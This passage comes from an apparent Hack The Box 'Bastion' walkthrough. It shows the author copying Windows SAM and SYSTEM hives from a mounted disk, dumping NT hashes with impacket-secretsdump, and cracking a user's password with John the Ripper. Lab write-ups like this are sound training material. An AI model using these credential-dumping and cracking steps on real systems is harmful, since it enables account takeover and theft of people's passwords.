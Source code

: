 There is potentially a LOT we want to read in here, since we see `Windows` it'd prolly be a good idea to see if we can't read the [SAM database](https://en.wikipedia.org/wiki/Security_Account_Manager).

``` bash
┌──(root💀bradman)-[/mnt/vhd]
└─# cd Windows/System32/config

┌──(root💀bradman)-[/mnt/vhd/Windows/System32/config]
└─# ls
<-- Omit-->
SAM
SAM.LOG
SAM.LOG1
SAM.LOG2
<-- Omit -->
SYSTEM
SYSTEM.LOG
SYSTEM.LOG1
SYSTEM.LOG2
<-- Omit -->

┌──(root💀bradman)-[/mnt/vhd/Windows/System32/config]
└─# cp SAM SYSTEM /home/brad/HTB/Bastion/

┌──(root💀bradman)-[/mnt/vhd/Windows/System32/config]
└─# cd /home/brad/HTB/Bastion   

┌──(root💀bradman)-[/home/brad/HTB/Bastion]
└─# ls
nmap  SAM  sploit.exe  SYSTEM

┌──(root💀bradman)-[/home/brad/HTB/Bastion]
└─# impacket-secretsdump -sam SAM -system SYSTEM local                                               1 ⨯
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 

```

ooooooh snap! So let's stop and look at what TF I just did. So I was able to see the `SAM` and `SYSTEM` files. I copied these over to my local directory for this machine and then utilized the `impacket-secretsdump` tool in order to actually extract password hashes! Let's pass these into John-The-Ripper and see if we can find the actual password values!

``` bash
                                                                                                         
┌──(root💀bradman)-[/home/brad/HTB/Bastion]
└─# sudo john --format=NT --wordlist=/home/brad/tools/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Remaining 1 password hash
Warning: no OpenMP support for this hash type, consider --fork=16
Press 'q' or Ctrl-C to abort, almost any other key for status
bureaulampje     (L4mpje)
1g 0:00:00:00 DONE (2021-07-14 23:49) 1.515g/s 14235Kp/s 14235Kc/s 14235KC/s burg7448..burdwan
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```